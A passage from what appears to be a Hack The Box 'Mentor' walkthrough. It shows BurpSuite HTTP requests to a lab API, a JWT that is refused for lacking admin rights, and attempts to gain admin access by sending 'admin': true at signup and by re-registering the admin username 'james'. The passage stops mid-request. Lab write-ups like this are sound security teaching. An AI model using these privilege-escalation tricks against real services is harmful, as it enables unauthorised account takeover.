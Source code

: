 We get a JWT back for our session.  I tried using the JWT in the Authorization header field to get users from within BurpSuite:

```
GET /users/ HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api.mentorquotes.htb/users/4
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImZvb2JhciIsImVtYWlsIjoiZm9vQGJhci5jb20ifQ.Q2yx8BqrikpPRF6hVz1BTgOLvzUODVUW0FvcsrYfBhs
DNT: 1
Connection: close
```

Okay, it appears our JWT works, but we obviously don't have the required admin privilege:

```
HTTP/1.1 403 Forbidden
Date: Sun, 19 Feb 2023 06:03:27 GMT
Server: uvicorn
content-length: 54
content-type: application/json
Connection: close

{"detail":"Only admin users can access this resource"}
```

The top of the OpenAPI spec at http://api.mentorquotes.htb/openapi.json shows a contact named `james` with email `james@mentorquotes.htb`:

```json
    "contact": {
      "name": "james",
      "url": "http://mentorquotes.htb",
      "email": "james@mentorquotes.htb"
    },
```

I tried a few things here, such as signing up again, but passing `"admin": true` in the signup JSON payload and a few other variations to see if I could force the creation of an administrator account.  I wasn't successful however.

Next I wondered if we could clobber this account by creating it again?  This was working off the assumption the signup endpoint will do an upsert on the underlying database  (so if the data already exists, it will update over the top of the existing record), and perhaps the existing user has a role in a separate table -- so signing up will retain their admin permissions..  Maybe.. Hopefully..

```
POST /auth/signup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api.mentorquotes.htb/docs
Content-Type: application/json
Origin: http://api.mentorquotes.htb
Content-Length: 89
DNT: 1
Connection: close
Pragma: no-cache
Cache-Control: no-cache

{
  "email": "james2@mentorquotes.htb",
  "username": "james",
```